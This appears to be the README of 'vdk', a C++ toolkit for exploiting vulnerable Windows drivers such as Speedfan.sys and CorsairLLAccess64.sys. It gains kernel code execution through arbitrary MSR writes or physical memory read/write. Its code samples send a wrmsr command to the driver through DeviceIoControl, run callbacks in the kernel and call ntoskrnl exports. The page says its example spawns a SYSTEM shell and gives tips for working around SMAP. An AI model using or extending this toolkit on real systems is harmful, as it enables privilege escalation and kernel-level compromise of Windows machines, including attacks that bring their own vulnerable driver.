 # vdk - vulnurable driver kit

*vdk* is a set of utilities used to help with exploitation of a vulnurable driver.
There are 2 main features of this library:
1. Getting kernel code execution via arbitrary msr write vulnurability
2. Getting kernel code execution via arbitrary physical memory read/write vulnurability

This project was written after I played with a few vulnurable drivers and was highly inspired by [msrexec](https://back.engineering/22/03/2021/) and [vdm](https://back.engineering/01/11/2020/) projects. I suggest you to read them first to understand what's going on.

Treat this project as a rewritten and combined version of those two.

There are 2 vulnurable drivers that you can use this library with but it should be easy to extend to use with any vulnurable driver. The corresponding code is in `example/src/llaccess.hpp` for `CorsairLLAccess64.sys` and `example/src/speedfan.hpp` for `Speedfan.sys`.
The example project shows every part of this library and uses speedfan driver to spawn shell with system privileges.

# How to use
cmkr example:
```
[fetch-content.vdk]
git = "https://github.com/archercreat/vdk.git"
...
link-libraries = ["vdk"]
```

cmake example:
```cmake
include(FetchContent)
FetchContent_Declare(vdk GIT_REPOSITORY https://github.com/archercreat/vdk.git)
FetchContent_MakeAvailable(vdk)

target_link_libraries(${PROJECT_NAME} PRIVATE vdk)
```

# Examples
Please refer to example folder for more examples.

Execute callback in kernel space by abusing abritrary msr write vulnurability:
```cpp
using dbgprint_t = void(*)(const char*, ...);

vdk::msr::exec([&](void* base, vdk::resolver_t resolver)
{
	auto print = reinterpret_cast<dbgprint_t>(resolver(base, "DbgPrint"));
	print("Hello from kernel! cr3: 0x%llx\n", __readcr3());
},
[&](uint32_t msr, uint64_t value)
{
    wrmsr_cmd cmd
    {
        .msr   = msr,
        .value = value
    };
    unsigned long temp, result;
    return DeviceIoControl(drv, ioctl_wrmsr, &cmd, sizeof(cmd), &result, sizeof(result), &temp, nullptr);
});
```

Execute any ntoskrnl exported function:
```cpp
void* sysproc{};
auto status = vdk::map::syscall<proclookup_t>(rdmem, wrmem, "PsLookupProcessByProcessId", 4, &sysproc);
fassert(NT_SUCCESS(status));
```

Iterate over physical regions:
```cpp
for (const auto& region : vdk::phy::regions())
{
	std::printf("Region: 0x%llx - 0x%llx\n", region.start, region.start + region.size);
}
```

Resolve exported function from pe module:
```cpp
std::vector<uint8_t> raw;
vdk::drv::read_file("C:\\Windows\\System32\\ntoskrnl.exe", raw);
auto rva = vdk::pe::get_export_rva(raw.data(), "RtlFindExportedRoutineByName");
```

Retrieve loaded modules list:
```cpp
for (const auto& module : vdk::drv::loaded())
{
	std::printf("0x%llx - 0x%llx %s\n", module.base, module.base + module.size, module.name.c_str());
}
```

Scan memory region for patterns (`0x00` - any character):
```cpp
std::vector<uint8_t> buf{ 0x69, 0x69, 0x69, 0x10 };
auto ptr = vdk::mem::find_first(buff.data(), buf.size(), "\x69\x69\x69\x00", 4);
fassert(ptr);
```

# Notes
The msr exploitation is highly unstable and should be used as a last resort. There is a high chance that the thread will switch to another core where `cr4.smap` isn't disabled. If you really want to use msr exploit, replace cr4 value that is specific to your PC in `lib/vdk/msr.cpp` (I didn't bother getting cr4 value dynamically but might do it later).

# build
```
cmake -B build
cmake --build build --config Release
```

# Credits
All credits go to `_xeroxz` and his `msrexec` and `vdm` projects.
